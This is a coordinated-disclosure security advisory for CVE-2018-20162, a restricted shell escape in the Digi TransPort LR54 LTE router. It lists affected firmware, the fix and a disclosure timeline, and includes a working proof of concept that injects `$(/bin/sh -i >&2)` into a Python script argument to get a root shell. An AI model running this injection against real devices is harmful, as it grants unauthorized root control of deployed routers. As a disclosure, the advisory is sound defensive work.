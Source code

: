 ```yaml
---
layout: post
title: "CVE-2018-20162: Digi TransPort LR54 Restricted Shell Escape"
author: sgo
category: security
---
```


The Digi TransPort LR54 is a high speed LTE router commonly used by industry,
infrastructure, retail and public transportation. 

It supports running python scripts in a restricted sandbox, and has a custom
shell accessible over SSH which is subjected to the same restrictions. The
underlying OS is therefore inaccessible to the administrator.

I've found a way to break out of the sandbox and obtaining a root shell by
exploiting the way the cli handles command line arguments when executing python
scripts:

When an interactive python process receives a SIGINT (trough CTRL-C), arguments
to the script are not properly escaped when passed to the interactive CLI's
error logging handler. This allows an attacker to execute arbitrary commands
as root.

To exploit this vulnerability, an attacker needs to have interactive CLI access
with 'super' privileges. A user with this access level is enabled by default on
the device.

# Vulnerable

Digi Transport LR54 (and maybe related products like WR64 and WR54)

Firmware Version  : 4.4.0.26 10/29/2018 21:14:06
Firmware Version  : 4.3.2.24 09/06/2018 00:58:34

And maybe earlier versions

# Migitation

Users should upgrade to firmware version 4.5.1.4 or newer. Secrets stored on the
device, like private keys and passphrases, should be changed as a precaution.

# Proof of Concept

1. Upload `sleep.py` to the LR54 using scp or sftp, containing: 

```
import time;time.sleep(10)
```

2. Execute the following command in the LR54 cli: 

```
python sleep.py --XXX $(/bin/sh -i >&2)
```

3. Immediately press `CTRL-C` after the program starts

4. You are then dropped to an interactive root shell 

```
/home/digi/user # uname -a
Linux (none) 3.10.14 #1 SMP Mon Oct 29 16:18:10 CDT 2018 mips GNU/Linux
/home/digi/user # id
uid=0(root) gid=2000(users_rw) groups=2000(users_rw),2002(users_super)
```

# Timeline

- 2018-12-13: Vulnerability discovered
- 2018-12-14: PoC created, Vendor notified
- 2018-12-14: Vendor confirmed, 60 day embargo. Applied for CVE.
- 2018-12-15: CVE-2018-20162 assigned
- 2018-12-31: Received pre-release firmware. Confirmed not vulnerable.
- 2019-01-02: Vendor releases fixed firmware 4.5.1.4
- 2019-01-25: Vendor updated release notes to reference CVE-2018-20162
- 2019-02-13: Vendor ok'ed disclosure, Embargo lifted

# References

- https://www.digi.com/products/networking/cellular-routers/digi-transport-lr54
- http://ftp1.digi.com/support/firmware/transport/LR54/v4.5.1.4/93001306_L.pdf
- https://www.digi.com/resources/security
- https://blog.hackeriet.no/cve-2018-20162-digi-lr54-restricted-shell-escape
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20162

# Credits

Vulnerability discovered by Stig Palmquist.

Thanks to @duniel_pls and @alexanderkjall for reviewing this report.
